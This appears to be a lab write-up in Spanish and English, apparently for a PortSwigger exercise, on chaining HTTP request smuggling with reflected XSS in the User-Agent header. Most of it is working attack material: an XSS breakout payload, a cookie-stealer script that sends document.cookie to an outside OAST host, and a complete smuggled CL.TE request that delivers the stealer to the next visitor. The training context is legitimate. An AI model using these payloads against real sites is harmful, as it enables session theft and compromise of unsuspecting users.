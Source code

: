 ![uA](images/userAgent.png)

La cabecera de UserAgent se refleja en la respuesta del servidor. Hay XSS.

Ojetivo ==> Smugglear una petición y meter un XSS en la cabecera User-Agent de `GET /post?postId=4`.

>Basic Cross Site Scripting Payload escaping out of HTML document.  

```JavaScript
 "/><script>alert(1)</script>
```

>COOKIE STEALER Payload.  

```JavaScript
a"/><script>document.location='http://OASTIFY.COM/?cookiestealer='+document.cookie;</script>
```  

>Smuggle this XSS request to the back-end server, so that it exploits the next visitor. Place the XSS cookie stealer in **User-Agent** header.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Length: 237
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://OASTIFY.COM/?Hack='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```  

![HTTP request smuggling to deliver reflected XSS and steal victim cookie](images/user-agent-cookie-stealer-smuggled.PNG)  

>Check the PortSwigger Collaborator Request received from victim browsing target.  
  